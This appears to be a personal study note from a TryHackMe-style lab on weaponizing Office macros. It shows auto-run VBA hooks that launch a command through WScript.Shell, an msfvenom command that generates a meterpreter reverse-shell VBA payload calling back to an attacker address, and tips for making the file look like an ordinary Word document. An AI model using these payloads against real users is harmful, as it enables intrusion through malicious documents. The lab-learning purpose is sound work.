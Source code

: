 # Exploiting Visual Basic for Applications
VBA scripts (“macros”) are a variant of VBScripts designed for use within Microsoft Office. It must be written within the appropriate MS Office app, which I suppose is one reason to shell out for an Office subscription.

VBA scripts  can be accessed within a document using the **View → Macros → View Macros** command. This dialog also allows macros to be created, but when doing so be sure to set **Macros in** to the current document!

Macros can be tested during development using the **Run → Run Sub/UserForm** command in the VBA editor.

To get a macro to run when the document is opened requires it to be hooked into the `Document_Open()` and `AutoOpen()` functions (they *almost* do the same thing; including both allows for better backward-compatibility).

```vb
Sub DocumentOpen()
	PoC
End Sub

Sub AutoOpen()
	PoC
End Sub

Sub PoC()
	' Create a string variable named `payload`
	Dim payload As String

	' Set `payload` to the command we wish to launch
	payload = "calc.exe"

	' Fire!
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

Note that `.docx` files *cannot* include macros anymore — either a `.docxm` file needs to be used or the older `.doc` format. It’s generally better to use `.doc`, as the `.docxm` icon is noticeably different from that of a standard Word document. (All of these notes also apply to other Office formats, obviously…)

Running an application using VBA Script is fundamentally the same as with the other methods — we invoke WSH. As with WSH, I’ve found that recent versions of Windows seem to greatly restrict what can be launched using WSH via Office macros… I’ve managed to pop `calc.exe`, but not anything else!

### Additional Resources
* [TryHackMe: Weaponization](https://tryhackme.com/room/weaponization)
* [Exploiting the Windows Scripting Host](./Exploiting%20the%20Windows%20Scripting%20Host.md)

## Using Metasploit
Msfvenom can create VBA payloads, as one might expect. Despite WSH not wanting to pop `cmd.exe` or other executables (outside of `calc.exe`), a meterpreter reverse shell actually works! (That said, it will die when Word does, and thus needs to be migrated to a new process ASAP…)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f vba -o ${NAME}.vba
```

Note that the VBA output will use the `Workbook_Open()` function. This is suitable for Excel, but must be changed to `Document_Open()` for Word.

### Additional Resources
* [TryHackMe: Weaponization](https://tryhackme.com/room/weaponization)
* [Using Metasploit](./Using%20Metasploit.md)
